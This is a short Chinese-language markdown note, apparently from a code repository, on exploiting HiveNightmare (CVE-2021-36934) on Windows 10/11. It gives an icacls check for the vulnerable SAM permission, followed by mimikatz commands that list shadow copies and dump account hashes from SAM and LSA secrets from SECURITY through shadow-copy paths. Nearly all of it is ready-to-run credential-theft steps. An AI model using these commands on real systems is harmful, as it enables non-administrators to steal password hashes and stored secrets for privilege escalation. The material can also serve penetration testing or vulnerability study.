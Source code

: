 # win10/win11 下HiveNightmare（CVE-2021–36934）可以使非管理员得到SAM,SECURITY,SYSTEM文件

cd `C:\Windows\System32`

`icacls config\SAM`  查看sam文件的权限，若出现`BUILTIN\Users:(I)(RX)`  则被视为该漏洞

```bash
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```